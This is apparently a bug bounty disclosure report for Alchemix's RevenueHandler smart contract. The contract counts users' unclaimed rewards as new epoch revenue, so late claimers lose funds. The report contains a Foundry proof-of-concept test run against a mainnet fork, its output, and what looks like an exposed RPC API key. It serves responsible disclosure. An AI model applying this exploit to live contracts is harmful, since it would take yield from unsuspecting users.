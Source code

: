 
# `RevenueHandler.checkpoint` counts unclaimed rewards as new rewards causing reduced rewards for users who have not claimed rewards in time

Submitted on May 15th 2024 at 22:47:08 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31263

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

Anyone calls `RevenueHandler.checkpoint` to update the reward for the current epoch. `checkpoint` will calculate the reward based on the reward token balance of the contract. However, these balances include unclaimed rewards. In other words, the unclaimed rewards of some users are included in the rewards of the new epoch.

## Vulnerability Details

Please look at the following code. When `tokenConfig.poolAdapter` is not set, `thisBalance` is directly used as the reward for the new epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L245-L264
                uint256 thisBalance = IERC20(token).balanceOf(address(this));

                // If poolAdapter is set, the revenue token is an alchemic-token
                if (tokenConfig.poolAdapter != address(0)) {
                    // Treasury only receives revenue if the token is an alchemic-token
                    treasuryAmt = (thisBalance * treasuryPct) / BPS;
                    IERC20(token).safeTransfer(treasury, treasuryAmt);

                    // Only melt if there is an alchemic-token to melt to
                    amountReceived = _melt(token);

                    // Update amount of alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
                } else {
                    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
                    amountReceived = thisBalance;

                    // Update amount of non-alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][token] += amountReceived;
                }
```

**Suggested fix**

Record the balance as a reward instead of using all the balance directly

## Impact Details

Users who claim rewards every epoch will receive more rewards, and other users will receive less rewards

## References

None

## Proof of concept
The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..fd9cbe6 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,58 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 1. init test env
+        deal(bal, address(this), 10000e18);
+        veALCX.checkpoint();
+
+        address user1 = address(0xacc1);
+        address user2 = address(0xacc2);
+        deal(bpt, user1, 1e18);
+        deal(bpt, user2, 1e18);
+
+        // 2. user1 and user2 mint $veToken with 1e18 BPT
+        hevm.startPrank(user1);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId2 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        vm.warp(block.timestamp + 2 weeks);
+        veALCX.checkpoint();
+
+        // 3. checkpoint 1, user1 claim the rewards
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        // 4. checkpoint 2, user1 and user2 claim the rewards, user2 claim revert
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        uint256 toClaimable = revenueHandler.claimable(tokenId2, bal);
+        hevm.expectRevert("Not enough revenue to claim");
+        revenueHandler.claim(tokenId2, bal, address(0), toClaimable, user2);
+        console.log("claimable of user2 is %s, but revert", toClaimable);
+        hevm.stopPrank();
+
+        console.log("IERC20(bal).balanceOf(user1): %s", IERC20(bal).balanceOf(user1));
+        console.log("IERC20(bal).balanceOf(user2): %s", IERC20(bal).balanceOf(user2));
+        console.log("IERC20(bal).balanceOf(address(revenueHandler)): %s", IERC20(bal).balanceOf(address(revenueHandler)));
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 3021917)
Logs:
  claimable of user2 is 125000000000000000000, but revert
  IERC20(bal).balanceOf(user1): 125000000000000000000
  IERC20(bal).balanceOf(user2): 0
  IERC20(bal).balanceOf(address(revenueHandler)): 75000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 35.59ms (19.80ms CPU time)

Ran 1 test suite in 1.81s (35.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

